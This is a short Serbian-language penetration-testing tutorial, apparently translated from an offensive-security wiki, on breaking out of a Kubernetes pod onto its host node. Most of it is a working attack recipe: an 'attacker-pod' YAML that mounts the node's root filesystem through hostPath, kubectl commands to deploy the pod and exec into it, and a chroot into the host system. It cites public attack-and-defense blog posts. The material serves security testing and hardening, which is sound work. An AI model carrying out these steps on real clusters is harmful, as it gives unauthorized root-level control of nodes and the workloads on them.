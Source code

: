 Ako ste u mogućnosti da kreirate nove podove, možda ćete moći da pobegnete iz njih do noda. Da biste to uradili, morate kreirati novi pod koristeći yaml fajl, prebaciti se na kreirani pod, a zatim chrootovati u sistem noda. Možete koristiti već postojeće podove kao referencu za yaml fajl jer prikazuju postojeće slike i putanje.
```bash
kubectl get pod <name> [-n <namespace>] -o yaml
```
> ako vam je potrebno da kreirate pod na određenom čvoru, možete koristiti sledeću komandu da biste dobili oznake na čvoru
>
> `k get nodes --show-labels`
>
> Uobičajeno, kubernetes.io/hostname i node-role.kubernetes.io/master su sve dobre oznake za izbor.
>
> [reference]: https://kubernetes.io/docs/concepts/scheduling-eviction/assign-pod-node/
```yaml
apiVersion: v1
kind: Pod
metadata:
labels:
run: attacker-pod
name: attacker-pod
namespace: default
spec:
volumes:
- name: host-fs
hostPath:
path: /
containers:
- image: ubuntu
imagePullPolicy: Always
name: attacker-pod
command: ["/bin/sh", "-c", "sleep infinity"]
volumeMounts:
- name: host-fs
mountPath: /root
restartPolicy: Never
# nodeName and nodeSelector enable one of them when you need to create pod on the specific node
#nodeName: master
#nodeSelector:
#  kubernetes.io/hostname: master
# or using
#  node-role.kubernetes.io/master: ""
```
Nakon toga kreirate pod.
```bash
kubectl apply -f attacker.yaml [-n <namespace>]
```
Sada možete prebaciti na kreirani pod na sledeći način
```bash
kubectl exec -it attacker-pod [-n <namespace>] -- sh # attacker-pod is the name defined in the yaml file
```
I na kraju se chroot-ujete u sistem čvora
```bash
chroot /root /bin/bash
```
Informacije dobijene sa: [Kubernetes Namespace Breakout using Insecure Host Path Volume — Part 1](https://blog.appsecco.com/kubernetes-namespace-breakout-using-insecure-host-path-volume-part-1-b382f2a6e216) [Napad i odbrana Kubernetesa: Bust-A-Kube – Epizoda 1](https://www.inguardians.com/attacking-and-defending-kubernetes-bust-a-kube-episode-1/)
